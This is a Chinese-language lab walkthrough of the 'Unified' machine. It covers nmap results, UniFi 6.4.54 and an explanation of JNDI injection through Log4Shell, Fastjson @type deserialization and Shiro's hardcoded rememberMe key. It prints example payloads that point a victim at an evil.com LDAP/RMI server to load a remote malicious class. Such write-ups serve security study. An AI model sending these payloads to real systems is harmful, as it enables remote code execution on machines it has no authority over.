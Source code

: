 ## Unified:

首先nmap简单扫描：

```
PORT     STATE SERVICE
22/tcp   open  ssh
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
8443/tcp open  https-alt
```

`-sV -sC`尝试看到更多信息：

浏览器查看一下8443端口，提示要https连接。连接上后页面如下：

![image-20250919145730395](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250919145730395.png)

可注意到标题是UniFi Network  版本是6.4.54。上网搜索发现这个版本使用的 Apache Log4j 组件存在 **CVE-2021-44228**，即log4shell漏洞。

```mermaid
graph LR
B[JNDI注入：java的对象注入] --> C[实现方法： CVE-2021-44228 Log4Shell]
B --> D[实现方法： Fastjson 反序列化漏洞]
C & D --> E[导致最终后果： 远程代码执行 RCE]
```

将这个首先要从JNDI注入讲起。JNDI全称是java命名和目录接口，它的作用是将服务名称和对象关联，使得开发人员可以统一通过服务名称访问对象。比如DNS服务，LDAP服务，RMI等都可以通过JNDI API统一处理。

JNDI本质是一个查询服务，用LDAP，RMI（面向对象的RPC实现）等查询服务名对应的对象。注入就产生在攻击者控制了查询地址的时候，让程序去攻击者控制的如LDAP/RMI服务器查询对象，那么恶意服务器返回响应，指向一个恶意类，受害者的java程序就会去这个URL**下载并执行这个恶意类**，从而导致远程代码执行（RCE）。

**Log4jshell和反序列化都是实现JNDI注入的手段。**

Log4j是一个日志记录的库，它会把程序运行的信息（包括用户输入！）写到日志文件里。比如攻击者在登录框的用户名写一个恶意的JNDI查询如`${jndi:ldap://evil.com/x}`，Log4j会把这个查询记录到日志里。而**Log4j 2.x 版本中的 JNDI 查找功能缺乏必要的安全验证**，也就是他会直接执行日志中记录的JNDI查询，触发了JNDI注入。

java反序列化也可以实现JNDI注入，比如fastjson库，可以通过指定 `@type` 属性，告诉程序这个JSON字符串**应该被还原成哪种具体的Java类**。早期版本的Fastjson在处理这个 `@type` 时，会**自动去加载并实例化指定的类**。如果这个类位于某个远程的JNDI资源上，它就会**触发JNDI查询**！比如：

```
{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "ldap(rmi)://evil.com/exploit",
  "autoCommit": true
}
```

Apache shiro也是一个常用的java库，它也能也用JNDI注入。简单概括就是它比fastjson直接序列化多了一个加密功能，但是**密钥是硬编码的，且公开的**（v-1.2.4）。这是有点搞笑了。

详细来说他有个Remember Me功能，是把用户信息序列化再加密放在Cookie里面，当作身份凭证。服务器拿到cookie先解密看看，成功就认为没有被篡改，然后就反序列化对象。因为我们能知道密钥，所以可以直接改序列化对象。我们既可以直接靠类似php的魔术方法执行一些恶意代码，也可以做一个JNDI查询，实现JNDI注入。

这里说是加密，但是它其实是签名的功能。只是内部用的是对称密码（AES），只有一个密钥，就也叫加密了。实际上服务端只判断能不能解密，不关心内容，也就是只看有没有被篡改。

所以总结，JDNI注入是控制查询发往恶意服务器，返回恶意类。java会自动加载，执行恶意代码。可以通过log4j2的日志记录漏洞写一个JNDI查询，也可以借助fastjson的@type，shiro的remember me这种反序列化时候的实现发起恶意JNDI查询。反序列化因此通常不直接执行命令，而是通过JNDI注入**间接加载远程恶意类**，更加灵活可靠。这种反序列化+JNDI注入的组合是近几年攻击java应用最主流的手段。
